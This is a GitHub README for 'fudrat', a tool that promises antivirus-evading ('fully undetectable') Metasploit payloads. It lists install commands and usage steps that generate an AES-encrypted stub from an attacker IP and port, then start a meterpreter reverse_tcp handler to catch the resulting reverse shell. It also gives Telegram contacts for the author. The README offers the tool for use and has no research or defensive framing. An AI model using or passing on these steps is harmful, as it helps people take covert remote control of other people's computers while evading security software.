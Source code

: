 # fudrat
Generate Undetectable Metasploit Payload in a simple way
![stub](https://user-images.githubusercontent.com/82051128/204192711-ad3d09a7-7fe6-45d2-86e8-b3abd0b43f12.png)

# Contact:-
     Telegram:- https://t.me/R0ot1337
     
# Requirements:
      1. Make sure python3 is installed in windows Or in Linux
      2. pip install termcolor
      3. pip install colorama
      4. Metasploit-Framework
      
# Installation:
        a) git clone https://github.com/machine1337/fudrat
        b) cd fudrat
        c) pip install -r requirements.txt
        d) python3 fud.py
       
# Usage: 
        1. python3 fud.py
        2. Put IP & Port
        3. Stub.py Generated
        4. Now Start Metasploit
        5. set payload python/meterpreter/reverse_tcp
        6. set LHOST (ip)
        7. set LPORT (port)
        8. exploit -j -z
      
# Features:
     1. FUD Payload Generator
     2. Stageless Reverse Shell
     3. AES encryption used
     4. Simple Payload Generator
     5. More Feature Will Be Added.

# Contact:-
    Telegram Group:- https://t.me/machine1337
     

